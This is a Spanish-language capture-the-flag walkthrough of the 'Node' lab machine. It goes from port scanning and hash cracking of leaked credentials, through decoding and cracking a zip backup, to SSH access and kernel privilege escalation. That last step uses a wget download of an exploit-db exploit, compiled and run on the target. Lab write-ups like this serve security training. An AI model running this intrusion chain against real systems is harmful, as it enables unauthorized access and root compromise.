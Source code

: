 # Machine Node

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -Pn -sV 212.129.28.18
``` 
2. El resultado es el siguiente:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
3000/tcp open  http    Node.js Express framework
```

## Analisis de vulnerabilidades

- Luego ejecute **Dirb** de esta manera
```
$ dirb http://212.83.175.138:80
```
- No me genero ninguna subcarpeta

## Exploiting

- Voy al puerto **3000** y veo que hay una pagina sencilla
- En el codigo fuente hay 3 directorios de **controller**, que son estos
```
assets/js/app/controllers/home.js
assets/js/app/controllers/login.js
assets/js/app/controllers/admin.js
assets/js/app/controllers/profile.js
```
- Las URL importantes son estas:
```
assets/js/app/controllers/profile.js
assets/js/app/controllers/home.js
```
- Estas URL contienen varios HASH entonces voy a usar **hash-buster** por ejemplo
```
$ python3 hash-buster -s <HASH>
```
- Los HASH decifrados son estos
```
+ username: tom, password: spongebob
+ username: mark, password: snowflake
+ username: myP14ceAdm1nAcc0uNT, password: manchester
```
- Ingreso al admin de la pagina con el usuario **myP14ceAdm1nAcc0uNT** y puedo descargar un archivo
- El archivo descargado lo abro con el comando **cat** y veo que al final tiene un **=** entonces eso es un **base64**
- Voy a decifrar el archivo y hago la salida a otro archivo de esta manera
```
$ cat myplace.backup | base64 --decode > archivo
```
- Vamos a usar el comando **file** para ver el tipo de archivo que es
```
$ file archivo
```
- Como resultado es un archivo **zip** y le voy añadir la extension **.zip** de esta manera
```
$ mv archivo archivo.zip
```
- Al descomprimirlo nos pide una contraseña
```
$ unzip archivo.zip
```
- Vamos a usar una herramienta
```
$ fcrackzip -D -p rockyou.txt archivo.zip
```
- La contraseña obtenida es esta **magicword**
- Ahora podemos decifrar el archivo **.zip** y nos genera una carpeta **var**
- Revise todos los archivos de cada carpeta y el que tiene algo interesante es **app.js**
```
mongodb://mark:5AYRft73VtFpc84k@localhost:27017
```
- Uso esa credenciales para entrar al SSH
```
$ ssh mark@212.129.28.18
```
- Uso el comando **sudo -l** y no ha funcionado, entonces decido ver la version del **kernel**
```
$ uname -r
```
- En internet esta este exploit
```
https://www.exploit-db.com/exploits/44298
```
- En la maquina victima lo descargo de esta manera:
```
$ wget https://www.exploit-db.com/raw/44298
```
- Con el comando **mv** voy a renombrar el archivo para colocarle la extendio **.c** de esta manera
```
$ mv 44298 44298.c
```
- Luego compilo el archivo
```
$ gcc 44298.c -o exploit
```
- Le doy permisos de ejecucion al archivo compilado que es de nombre **exploit**
```
$ chmod +x exploit
```
- Por ultimo lo ejecuto y ya soy **root**
```
$ ./exploit
```

## Explotación maquina Ignite

https://resources.infosecinstitute.com/node-1-ctf-walkthrough/#gref
